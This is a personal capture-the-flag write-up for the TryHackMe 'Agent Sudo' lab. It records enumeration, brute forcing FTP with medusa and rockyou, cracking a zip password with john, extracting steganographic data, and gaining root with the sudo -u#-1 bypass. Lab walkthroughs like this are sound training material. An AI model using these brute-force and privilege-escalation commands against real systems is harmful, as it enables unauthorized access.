

# Agent Sudo (THM)

- https://tryhackme.com/room/agentsudoctf
- March 2, 2023
- easy

---

## Enumeration

- Nmap initial

1. 21/tcp open ftp syn-ack vsftpd 3.0.3
2. 22/tcp open ssh syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
3. 80/tcp open http syn-ack Apache httpd 2.4.29 ((Ubuntu))

- ftp -> anonymous login not allowed

- http
- home page

```
Use your own codename as user-agent to access the site.
From,
Agent R
```

- user-agent - for http header ??
- what is codename??
- from text, Agent R, try to brute force from A-Z with user-agent header
- find agent C,

```
C
======
Attention chris, <br><br>

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>

From,<br>
Agent R
```

- then brute force ftp password with user christ

```sh
$ medusa -h $IP -u chris -P /usr/share/wordlists/rockyou.txt -M ftp -t 8
```

- ACCOUNT FOUND: [ftp] Host: 10.10.218.47 User: chris Password: crystal [SUCCESS]

- login with chris:crystal to ftp server
- get three files
- in text file

```
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

- need to analyse pictures

```sh
$ binwalk cute-alien.jpg

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             JPEG image data, JFIF standard 1.01


~/vuln_labs/thm_easy_agentsudo/ftp ⌚ 21:13:53
$ ls
cute-alien.jpg  cutie.png  To_agentJ.txt

~/vuln_labs/thm_easy_agentsudo/ftp ⌚ 21:13:57
$ binwalk cutie.png

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22
```

- `binwalk -e cutie.png` -> get zip and txt file. Txt file is nothing. Extract the zip file.
- zip file is password protected
- find password of zip file

```sh
$ /opt/tools/john/run/zip2john 8702.zip > forjohn
$ john forjohn
# alien
$ 7zz x 8702.zip # with password -> alien, get To_agentR.txt
```

- To_agentR.txt

```
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```

```sh
$ echo QXJlYTUx | base64 -d
# Area51
$ steghide extract -sf cute-alien.jpg
Enter passphrase: Area51
wrote extracted data to "message.txt".
```

- get message.txt

```
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

- enter ssh with james:hackerrules!

```sh
james@agent-sudo:~$ sudo -l
[sudo] password for james:
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

```sh
james@agent-sudo:/tmp$ sudo --version
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
```

- It is vulnerable to sudo 1.8.27 - Security Bypass
- https://www.exploit-db.com/exploits/47502

```sh
james@agent-sudo:/tmp$ sudo -u#-1 /bin/bash
root@agent-sudo:/tmp# whoami
root
```



- for the sake of completeness, I ran the linpeas and copy the result as lp_out.ansi.

---
